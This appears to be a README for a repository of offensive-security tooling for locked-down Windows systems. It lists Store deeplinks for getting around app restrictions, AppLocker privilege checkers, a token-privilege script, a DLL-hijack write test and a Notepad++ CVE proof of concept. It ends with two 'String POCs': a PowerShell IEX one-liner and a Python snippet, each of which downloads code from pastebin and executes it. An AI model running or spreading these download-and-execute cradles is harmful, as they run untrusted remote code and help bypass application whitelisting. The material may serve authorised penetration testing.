 
### Copies of bins for download 

The Python Embeddable 3.11.0 for the .tar
https://www.python.org/downloads/windows/


##### DD Deeplinks for the MS store rollback
ESRB [E] Everyone ratings will work in most cases - however ESRB Teen [T] and other ratings may be restricted.  
Most social media type apps will be Teen [T]  

[E] [x64dbg] - https://get.microsoft.com/installer/download/9PGJGD53TN86  
[E] [Python3.11] - https://get.microsoft.com/installer/download/9NRWMJP3717K  
[E] [Microsoft PowerToys] - https://get.microsoft.com/installer/download/XP89DCGQ3K6VLD  
[3] [PowerShell 7] - https://get.microsoft.com/installer/download/9MZ1SNWT0N5D  
[3] [PowerShell Preview] - https://get.microsoft.com/installer/download/9P95ZZKTNRN4  
[T] [TikTok - PSPF restricted] - https://get.microsoft.com/installer/download/9NH2GPH4JZS4  


#### Details
- The `1package.tar` and `2package.tar` are the Prowler `.whl` files for Python portable install
- The `Certify.exe` is what it says
- The `.Appx` are for the MS Store and `1b765123-a5ce-4bd0-9c0f-9b0b8cc76095` is the store
- The `SoAudit.exe` is the auditing tool, Alpha release only so far
- The `TokenPriv.ps1` is for Admin use to enable different privs in the session as needed
- The `gpg-debs.tar` is the set of deb files for installing gpg on minimal Kali, required when apt is not keyed yet
- `odapplockprivs.exe` is for default AppLocker paths checking for any wild files with privs for Everyone user
- `fulloddapplockerprivs.exe` is a full user group check in AppLocker paths for privs - users are; Everyone, Users, Authenticated Users and Guests
- `Processhacker` is the official binary
- `python` is the official embed 3.11.0 release
- `regsvr32.c` and the related `.exe` is a source code for poc testing the NoptePad++ CVE from 2025
- `scriptfile2.js` is a write test, check comments in the file
- `whl.ps1` is a helper file to unpack `.whl` files to a location - specifically the .tar files `1package.tar` and `2package.tar` but can be for any large `.whl` sets obv. 
- `JackWrite.dll` is a file write test for missing .dlls

### String POCs

IEX Calc POC
```iex ((Invoke-WebRequest 'https://pastebin.com/raw/Gnb4K1Qq').Content)```

Subprocess Calc POC
```import urllib.request
url = "https://pastebin.com/raw/kFzy7JT5"
response = urllib.request.urlopen(url)
code = response.read().decode()
exec(code)
